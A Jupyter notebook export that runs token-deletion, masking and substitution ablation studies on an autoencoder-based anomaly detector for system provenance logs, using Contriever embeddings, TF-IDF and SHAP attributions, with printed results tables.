 -> Analyzing [ANOMALY] Test Index: 2230
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [ANOMALY] Test Index: 2232
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [NORMAL] Test Index: 56
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [NORMAL] Test Index: 494
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [NORMAL] Test Index: 1671
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [NORMAL] Test Index: 218
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [NORMAL] Test Index: 952
    Target

In [22]:
import pandas as pd
pd.set_option('display.max_rows', None)
# Load the results from the CSV file
df_results = pd.read_csv("vanilla_ablation_study_multi_deletion.csv")
# Display the results in a clean format
df_results


,Performer,Type,Ablation Stage,Recon Error,SHAP Mean,Text
0,5DIR,Anomaly,1. Original,0.000213,-1.000000e-08,Process has event bind and event check_file_at...
1,5DIR,Anomaly,2. Removed Top 5,0.000268,-1.000000e-08,Process has event bind and event check_file_at...
2,5DIR,Anomaly,3. Removed Top 10,0.000285,-1.000000e-08,Process has event and event check_file_attribu...
3,5DIR,Anomaly,1. Original,0.000043,-1.000000e-08,Process has event accept and event bind and ev...
4,5DIR,Anomaly,2. Removed Top 5,0.000184,-1.000000e-08,Process has event accept and event bind and ev...
5,5DIR,Anomaly,3. Removed Top 10,0.000209,-0.000000e+00,Process has event accept and event bind and ev...
6,5DIR,Anomaly,1. Original,0.000062,-1.000000e-08,Process has event accept and event bind and ev...
7,5DIR,Anomaly,2. Removed Top 5,0.000182,-1.000000e-08,Process has event accept and event bind and ev...
8,5DIR,Anomaly,3. Removed Top 10,0.000212,-1.000000e-08,Process has event accept and event bind and ev...
9,5DIR,Anomaly,1. Original,0.000029,-0.000000e+00,Process has event check_file_attributes and ev...


In [10]:
# ==========================================
# CELL 10: Multi-Stage Ablation Study (Top 5 & Top 10 Deletion)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
    return emb.cpu().numpy()

print("🚀 Starting Multi-Word Deletion Ablation Study (Vanilla AE)...")

ablation_results = []

for performer, idx in selected_anomaly_indices.items():
    print(f"\n" + "-"*60)
    print(f"🔹 RUNNING MULTI-WORD ABLATION FOR: {performer.upper()} (Test Index: {idx})")
    print("-"*60)
    
    # --------------------------------------------------
    # A. REBUILD TF-IDF TO FIND THE TOP TOKENS
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    shap_vals_tfidf = all_performers_shap_values[performer]
    if isinstance(shap_vals_tfidf, list):
        importance = shap_vals_tfidf[0][idx]
    else:
        importance = shap_vals_tfidf[idx]
        
    importance = np.array(importance).flatten()
    
    # Sort and grab the TOP 10 positive drivers
    i = np.where(importance > 0)[0]
    sorted_indices = i[np.argsort(importance[i])[::-1]]
    
    if len(sorted_indices) < 5:
        print(f"[!] Not enough positive drivers found to ablate (Found {len(sorted_indices)}). Skipping.")
        continue
        
    # Extract the actual word strings for the top 5 and top 10
    top_5_words = tokens[sorted_indices[:5]]
    top_10_words = tokens[sorted_indices[:min(10, len(sorted_indices))]]
    
    print(f" -> Top 5 Targets: {list(top_5_words)}")
    if len(sorted_indices) >= 10:
        print(f" -> Top 10 Targets: {list(top_10_words)}")
    
    original_text = test_texts[idx]
    
    # --------------------------------------------------
    # B. RETRIEVE VANILLA MODELS
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    def evaluate_ablation(text, stage_name):
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    # Helper function to strip multiple words from a string
    def remove_multiple_words(text, words_to_remove):
        temp_text = text
        for w in words_to_remove:
            temp_text = re.sub(r'\b' + re.escape(w) + r'\b', '', temp_text, flags=re.IGNORECASE)
        # Clean up double spaces left behind by deleted words
        return re.sub(r'\s+', ' ', temp_text).strip()

    # --------------------------------------------------
    # C. EXECUTE MULTI-STAGE ABLATION (Mass Deletion)
    # --------------------------------------------------
    # Stage 1: Original Log
    ablation_results.append(evaluate_ablation(original_text, "1. Original"))
    
    # Stage 2: Delete Top 5 Tokens
    text_minus_5 = remove_multiple_words(original_text, top_5_words)
    ablation_results.append(evaluate_ablation(text_minus_5, f"2. Deleted Top 5 Words"))
    
    # Stage 3: Delete Top 10 Tokens
    text_minus_10 = remove_multiple_words(original_text, top_10_words)
    ablation_results.append(evaluate_ablation(text_minus_10, f"3. Deleted Top 10 Words"))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 MULTI-WORD DELETION RESULTS: IMPACT OF REMOVING TOP 5 & 10 TOKENS")
print("="*100)

print(df_results[["Performer", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

df_results.to_csv("vanilla_ablation_study_multi_deletion.csv", index=False)
print("✅ Saved full results to 'vanilla_ablation_study_multi_deletion.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Multi-Word Deletion Ablation Study (Vanilla AE)...

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: 5DIR (Test Index: 2237)
------------------------------------------------------------
 -> Top 5 Targets: ['achwykr92ekqzich', 'grant', 'cleanuptemporarystate', 'lsm', 'task_started']
 -> Top 10 Targets: ['achwykr92ekqzich', 'grant', 'cleanuptemporarystate', 'lsm', 'task_started', 'ipconfig', 'cleanmgr', 'rdpinput', '52', '9b699dd16ce6']

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: CADETS (Test Index: 44927)
------------------------------------------------------------
 -> Top 5 Targets: ['accept', '69', '139', '99', 'dhclient']
 -> Top 10 Targets: ['accept', '69', '139', '99', 'dhclient', '56', 'fortune', '38', '9000', '123']

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: CLEARSCOPE (Test Index: 2423)
------------------------------

In [11]:
import pandas as pd
df_multideletion = pd.read_csv("vanilla_ablation_study_multi_deletion.csv")
df_multideletion

,Performer,Ablation Stage,Recon Error,SHAP Mean,Text
0,5DIR,1. Original,0.000177,-0.0,Process has event bind and event check_file_at...
1,5DIR,2. Deleted Top 5 Words,0.000177,-0.0,Process has event bind and event check_file_at...
2,5DIR,3. Deleted Top 10 Words,0.000177,-0.0,Process has event bind and event check_file_at...
3,CADETS,1. Original,0.000075,-0.0,Process has event accept and event change_prin...
4,CADETS,2. Deleted Top 5 Words,0.000089,-0.0,Process has event and event change_principal a...
5,CADETS,3. Deleted Top 10 Words,0.000083,-0.0,Process has event and event change_principal a...
6,CLEARSCOPE,1. Original,0.000304,-0.0,Process has event bind and event check_file_at...
7,CLEARSCOPE,2. Deleted Top 5 Words,0.000283,-0.0,Process has event bind and event check_file_at...
8,CLEARSCOPE,3. Deleted Top 10 Words,0.000287,-0.0,Process has event bind and event and event clo...
9,THEIA,1. Original,0.000401,-0.0,Process has event clone and event sendto and e...


In [12]:
import pickle
import pandas as pd

# ==========================================
# 1. CONFIGURATION & LOADING
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

print("📦 Loading Master Dataset into memory...")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# Dictionary to store the extracted data for later use
extracted_samples = {}

# ==========================================
# 2. EXTRACTION LOOP
# ==========================================
for performer in PERFORMERS:
    print(f"\n{'='*80}")
    print(f"🔍 EXTRACTING SAMPLES FOR: {performer.upper()}")
    print(f"{'='*80}")
    
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Data not found for {performer}. Skipping.")
        continue
        
    df = master_text_data[performer][TARGET_CONTEXT]
    
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop all unused feature columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)
    
    # Separate normal and anomalous logs
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    
    # Safely grab up to 5 random samples (handles edge cases if there are fewer than 5 anomalies)
    n_normal = min(5, len(normal_df))
    n_anomaly = min(5, len(anomaly_df))
    
    sampled_normal = normal_df.sample(n=n_normal, random_state=42)[text_col].tolist()
    sampled_anomaly = anomaly_df.sample(n=n_anomaly, random_state=42)[text_col].tolist()
    
    # Save to dictionary
    extracted_samples[performer] = {
        "Normal": sampled_normal,
        "Anomaly": sampled_anomaly
    }
    
    # --- PRINT RESULTS TO CONSOLE ---
    print("\n🟢 NORMAL SAMPLES (Label 0):")
    for i, text in enumerate(sampled_normal, 1):
        # Truncate for console readability if the log is massively long
        display_text = f"{text[:150]}..." if len(text) > 150 else text
        print(f"  {i}. {display_text}")
        
    print("\n🔴 ANOMALOUS SAMPLES (Label 1):")
    if not sampled_anomaly:
        print("  [!] No anomalies found for this performer.")
    for i, text in enumerate(sampled_anomaly, 1):
        display_text = f"{text[:150]}..." if len(text) > 150 else text
        print(f"  {i}. {display_text}")

print("\n✅ Extraction complete! All data is safely stored in the 'extracted_samples' dictionary.")

📦 Loading Master Dataset into memory...

🔍 EXTRACTING SAMPLES FOR: 5DIR

🟢 NORMAL SAMPLES (Label 0):
  1. Process has event modify_file_attributes and event open and event read and executable searchfilterhost.exe
  2. Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event fcn...
  3. Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event for...
  4. Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event fcn...
  5. Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event fcn...

🔴 ANOMALOUS SAMPLES (Label 1):
  1. Process has event check_file_attributes and event close and event create_object and event create_thread and event 

##### V2

In [25]:
# ==========================================
# CELL 10: Automated Multi-Stage Ablation Study (Vanilla AE)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    # Handle single string input by wrapping in list
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
    return emb.cpu().numpy()

print("🚀 Starting Automated Ablation Study on Selected Anomalies (Vanilla AE)...")
print("⏳ Calculating multi-stage evaluations...\n")

ablation_results = []

# Loop through the anomalies we selected in Cell 5
for performer, idx in selected_anomaly_indices.items():
    print(f"\n" + "-"*60)
    print(f"🔹 RUNNING ABLATION FOR: {performer.upper()} (Test Index: {idx})")
    print("-"*60)
    
    # --------------------------------------------------
    # A. REBUILD TF-IDF TO FIND THE TOP TOKENS
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # Extract the TF-IDF SHAP values for this specific log
    shap_vals_tfidf = all_performers_shap_values[performer]
    if isinstance(shap_vals_tfidf, list):
        importance = shap_vals_tfidf[0][idx]
    else:
        importance = shap_vals_tfidf[idx]
        
    importance = np.array(importance).flatten()
    
    # Sort and grab the top 2 positive drivers
    i = np.where(importance > 0)[0]
    sorted_indices = i[np.argsort(importance[i])[::-1]]
    
    if len(sorted_indices) < 2:
        print(f"[!] Not enough positive drivers found to ablate. Skipping.")
        continue
        
    word1 = tokens[sorted_indices[0]]
    word2 = tokens[sorted_indices[1]]
    
    print(f" -> Identifying Target 1: '{word1}'")
    print(f" -> Identifying Target 2: '{word2}'")
    
    original_text = test_texts[idx]
    
    # --------------------------------------------------
    # B. RETRIEVE VANILLA MODELS FROM CELL 9
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    # Helper function to run the ablation stages cleanly
    def evaluate_ablation(text, stage_name):
        # 1. Get Embedding
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        # 2. Calculate Reconstruction Error (Vanilla MSE)
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        # 3. Calculate SHAP Mean Impact
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        # Use raw mean so we retain the negative signs for our table
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    # --------------------------------------------------
    # C. EXECUTE MULTI-STAGE ABLATION (NLP Masking)
    # --------------------------------------------------
    # Grab the official mask token for Contriever (which is '[MASK]')
    MASK = tokenizer.mask_token if tokenizer.mask_token else "[MASK]"

    # Stage 1: Original Log
    ablation_results.append(evaluate_ablation(original_text, "1. Original"))
    
    # Stage 2: Mask the 1st Token
    # Instead of '', we replace the word with the MASK token
    text_masked_1 = re.sub(r'\b' + re.escape(word1) + r'\b', MASK, original_text, flags=re.IGNORECASE)
    text_masked_1 = re.sub(r'\s+', ' ', text_masked_1).strip() 
    ablation_results.append(evaluate_ablation(text_masked_1, f"2. Masked '{word1}'"))
    
    # Stage 3: Mask the 1st & 2nd Tokens
    text_masked_2 = re.sub(r'\b' + re.escape(word2) + r'\b', MASK, text_masked_1, flags=re.IGNORECASE)
    text_masked_2 = re.sub(r'\s+', ' ', text_masked_2).strip()
    ablation_results.append(evaluate_ablation(text_masked_2, f"3. Masked '{word1}', '{word2}'"))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

# Format for clean numeric viewing, forcing the + or - symbol with: :+.8f
df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 VANILLA ABLATION STUDY RESULTS: IMPACT OF REMOVING TOKENS ON RECONSTRUCTION & SHAP")
print("="*100)

# Print clean table (hiding the long text column for console output)
print(df_results[["Performer", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

# Save full results including text
df_results.to_csv("vanilla_ablation_study_results_masked.csv", index=False)
print("✅ Saved full results (including text) to 'vanilla_ablation_study_results_masked.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Automated Ablation Study on Selected Anomalies (Vanilla AE)...
⏳ Calculating multi-stage evaluations...


------------------------------------------------------------
🔹 RUNNING ABLATION FOR: 5DIR (Test Index: 2237)
------------------------------------------------------------
 -> Identifying Target 1: '75'
 -> Identifying Target 2: 'powershell'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CADETS (Test Index: 44924)
------------------------------------------------------------
 -> Identifying Target 1: 'network'
 -> Identifying Target 2: 'alpine'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CLEARSCOPE (Test Index: 2423)
------------------------------------------------------------
 -> Identifying Target 1: 'event'
 -> Identifying Target 2: '118'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: THEIA (Test Index: 55916)
-------------------------------------------

In [26]:
import pandas as pd

df = pd.read_csv("vanilla_ablation_study_results.csv")
df

,Performer,Ablation Stage,Recon Error,SHAP Mean,Text
0,5DIR,1. Original,0.000206,-1.000000e-08,Process has event bind and event check_file_at...
1,5DIR,2. Removed '75',0.000200,-1.000000e-08,Process has event bind and event check_file_at...
2,5DIR,"3. Removed '75', 'powershell'",0.000250,-1.000000e-08,Process has event bind and event check_file_at...
3,CADETS,1. Original,0.000176,-0.000000e+00,Process has event close and event connect and ...
4,CADETS,2. Removed 'network',0.000300,-0.000000e+00,Process has event close and event connect and ...
5,CADETS,"3. Removed 'network', 'alpine'",0.000300,-0.000000e+00,Process has event close and event connect and ...
6,CLEARSCOPE,1. Original,0.000304,0.000000e+00,Process has event bind and event check_file_at...
7,CLEARSCOPE,2. Removed 'event',0.000427,0.000000e+00,Process has bind and check_file_attributes and...
8,CLEARSCOPE,"3. Removed 'event', '118'",0.000442,0.000000e+00,Process has bind and check_file_attributes and...
9,THEIA,1. Original,0.000484,-0.000000e+00,Process has event clone and event open and eve...


##### v3

In [27]:
# ==========================================
# CELL 10: Automated Multi-Stage Ablation Study (Vanilla AE)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    # Handle single string input by wrapping in list
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
    return emb.cpu().numpy()

print("🚀 Starting Automated Ablation Study on Selected Anomalies (Vanilla AE)...")
print("⏳ Calculating multi-stage evaluations...\n")

ablation_results = []

# Loop through the anomalies we selected in Cell 5
for performer, idx in selected_anomaly_indices.items():
    print(f"\n" + "-"*60)
    print(f"🔹 RUNNING ABLATION FOR: {performer.upper()} (Test Index: {idx})")
    print("-"*60)
    
    # --------------------------------------------------
    # A. REBUILD TF-IDF TO FIND THE TOP TOKENS
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # Extract the TF-IDF SHAP values for this specific log
    shap_vals_tfidf = all_performers_shap_values[performer]
    if isinstance(shap_vals_tfidf, list):
        importance = shap_vals_tfidf[0][idx]
    else:
        importance = shap_vals_tfidf[idx]
        
    importance = np.array(importance).flatten()
    
    # Sort and grab the top 2 positive drivers
    i = np.where(importance > 0)[0]
    sorted_indices = i[np.argsort(importance[i])[::-1]]
    
    if len(sorted_indices) < 2:
        print(f"[!] Not enough positive drivers found to ablate. Skipping.")
        continue
        
    word1 = tokens[sorted_indices[0]]
    word2 = tokens[sorted_indices[1]]
    
    print(f" -> Identifying Target 1: '{word1}'")
    print(f" -> Identifying Target 2: '{word2}'")
    
    original_text = test_texts[idx]
    
    # --------------------------------------------------
    # B. RETRIEVE VANILLA MODELS FROM CELL 9
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    # Helper function to run the ablation stages cleanly
    def evaluate_ablation(text, stage_name):
        # 1. Get Embedding
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        # 2. Calculate Reconstruction Error (Vanilla MSE)
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        # 3. Calculate SHAP Mean Impact
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        # Use raw mean so we retain the negative signs for our table
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    # --------------------------------------------------
    # C. EXECUTE MULTI-STAGE ABLATION (Benign Substitution)
    # --------------------------------------------------
    # Define a highly common, safe word from the normal training data
    BENIGN_WORD = "system" 

    # Stage 1: Original Log
    ablation_results.append(evaluate_ablation(original_text, "1. Original"))
    
    # Stage 2: Substitute the 1st Token
    text_masked_1 = re.sub(r'\b' + re.escape(word1) + r'\b', BENIGN_WORD, original_text, flags=re.IGNORECASE)
    text_masked_1 = re.sub(r'\s+', ' ', text_masked_1).strip() 
    ablation_results.append(evaluate_ablation(text_masked_1, f"2. Replaced '{word1}'"))
    
    # Stage 3: Substitute the 1st & 2nd Tokens
    text_masked_2 = re.sub(r'\b' + re.escape(word2) + r'\b', BENIGN_WORD, text_masked_1, flags=re.IGNORECASE)
    text_masked_2 = re.sub(r'\s+', ' ', text_masked_2).strip()
    ablation_results.append(evaluate_ablation(text_masked_2, f"3. Replaced '{word1}', '{word2}'"))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

# Format for clean numeric viewing, forcing the + or - symbol with: :+.8f
df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 VANILLA ABLATION STUDY RESULTS: IMPACT OF REMOVING TOKENS ON RECONSTRUCTION & SHAP")
print("="*100)

# Print clean table (hiding the long text column for console output)
print(df_results[["Performer", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

# Save full results including text
df_results.to_csv("vanilla_ablation_study_results_replacedwithsystem.csv", index=False)
print("✅ Saved full results (including text) to 'vanilla_ablation_study_results_replacedwithsystem.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Automated Ablation Study on Selected Anomalies (Vanilla AE)...
⏳ Calculating multi-stage evaluations...


------------------------------------------------------------
🔹 RUNNING ABLATION FOR: 5DIR (Test Index: 2237)
------------------------------------------------------------
 -> Identifying Target 1: '75'
 -> Identifying Target 2: 'powershell'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CADETS (Test Index: 44924)
------------------------------------------------------------
 -> Identifying Target 1: 'network'
 -> Identifying Target 2: 'alpine'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CLEARSCOPE (Test Index: 2423)
------------------------------------------------------------
 -> Identifying Target 1: 'event'
 -> Identifying Target 2: '118'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: THEIA (Test Index: 55916)
-------------------------------------------

In [28]:
import pandas as pd
df_replaced = pd.read_csv("vanilla_ablation_study_results_replacedwithsystem.csv")
df_replaced

,Performer,Ablation Stage,Recon Error,SHAP Mean,Text
0,5DIR,1. Original,0.000206,-1.000000e-08,Process has event bind and event check_file_at...
1,5DIR,2. Replaced '75',0.000191,-1.000000e-08,Process has event bind and event check_file_at...
2,5DIR,"3. Replaced '75', 'powershell'",0.000233,-1.000000e-08,Process has event bind and event check_file_at...
3,CADETS,1. Original,0.000176,-0.000000e+00,Process has event close and event connect and ...
4,CADETS,2. Replaced 'network',0.000306,-0.000000e+00,Process has event close and event connect and ...
5,CADETS,"3. Replaced 'network', 'alpine'",0.000306,-0.000000e+00,Process has event close and event connect and ...
6,CLEARSCOPE,1. Original,0.000304,0.000000e+00,Process has event bind and event check_file_at...
7,CLEARSCOPE,2. Replaced 'event',0.000499,0.000000e+00,Process has system bind and system check_file_...
8,CLEARSCOPE,"3. Replaced 'event', '118'",0.000533,0.000000e+00,Process has system bind and system check_file_...
9,THEIA,1. Original,0.000484,-0.000000e+00,Process has event clone and event open and eve...


#### multideletion

In [29]:
# ==========================================
# CELL 10: Multi-Stage Ablation Study (Top 5 & Top 10 Deletion)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
    return emb.cpu().numpy()

print("🚀 Starting Multi-Word Deletion Ablation Study (Vanilla AE)...")

ablation_results = []

for performer, idx in selected_anomaly_indices.items():
    print(f"\n" + "-"*60)
    print(f"🔹 RUNNING MULTI-WORD ABLATION FOR: {performer.upper()} (Test Index: {idx})")
    print("-"*60)
    
    # --------------------------------------------------
    # A. REBUILD TF-IDF TO FIND THE TOP TOKENS
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    shap_vals_tfidf = all_performers_shap_values[performer]
    if isinstance(shap_vals_tfidf, list):
        importance = shap_vals_tfidf[0][idx]
    else:
        importance = shap_vals_tfidf[idx]
        
    importance = np.array(importance).flatten()
    
    # Sort and grab the TOP 10 positive drivers
    i = np.where(importance > 0)[0]
    sorted_indices = i[np.argsort(importance[i])[::-1]]
    
    if len(sorted_indices) < 5:
